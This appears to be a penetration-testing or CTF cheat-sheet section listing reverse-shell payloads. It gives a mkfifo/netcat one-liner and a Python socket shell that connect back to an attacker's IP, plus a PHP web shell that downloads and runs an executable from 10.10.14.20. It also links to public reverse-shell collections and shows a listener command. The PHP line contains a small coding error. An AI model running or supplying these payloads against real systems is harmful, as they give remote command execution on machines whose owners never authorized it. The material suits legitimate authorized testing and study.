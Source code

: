 ```bash
gpg --decrypt fragment.asc
```

***

### Reverse Shells

#### mkfifo

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

#### python

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Pentester-monkey

[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

#### High On coffee

[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

#### Payloadallthings

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

#### XCT shell

```php
<?php
    $data = file_get_contents('<http://10.10.14.20:8000/xc.exe>');
    file_put_contents('C:\\\\programdata\\\\xc_10.10.14.20_9001.exe' . $data);
    system("C:\\\\programdata\\\\xc_10.10.14.20_9001.exe");
?>
```

[https://github.com/xct/xc](https://github.com/xct/xc)

```bash
./xc -l -p 9001
```

#### shellcat (my tool)

https://github.com/seriotonctf/shellcat

***
